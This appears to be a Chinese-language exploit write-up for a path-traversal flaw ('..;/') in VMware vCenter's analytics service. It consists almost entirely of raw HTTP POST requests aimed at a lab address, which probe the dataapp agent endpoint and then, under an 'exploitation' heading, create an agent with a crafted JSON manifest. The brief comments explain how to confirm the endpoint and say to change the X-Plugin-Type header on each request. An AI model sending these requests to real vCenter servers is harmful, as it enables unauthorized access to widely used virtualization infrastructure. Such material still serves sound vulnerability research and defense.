 ```plain
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 192.168.111.11
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Content-Length: 2
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: application/json
X-Deployment-Secret: secret
X-Plugin-Type: MoWtrXYtWo
Accept-Encoding: gzip, deflate
Connection: close
{}
```

返回200，collectAgent接口存在，每次请求需要修改X-Plugin-Type

```plain
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?action=collect&_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 192.168.111.11
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Content-Length: 2
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: application/json
X-Deployment-Secret: secret
X-Plugin-Type: MoWtrXYtWo
Accept-Encoding: gzip, deflate
Connection: close
{}
```

## 漏洞利用

createAgent  
每次请求修改X-Plugin-Type

```plain
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 192.168.111.11
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: secret
X-Plugin-Type: test
Content-Length: 354
{"manifestSpec": {"resourceId": "b1", "dataType": "b2", "objectId": "b3", "versionDataType": "b4", "versionObjectId": "b5"}, "objectType": "a1", "collectionTriggerDataNeeded": true, "deploymentDataNeeded": true, "resultNeeded": true, "signalCollectionCompleted": true, "localManifestPath": "a2", "localPayloadPath": "a3", "localObfuscationMapPath": "a4"}
```
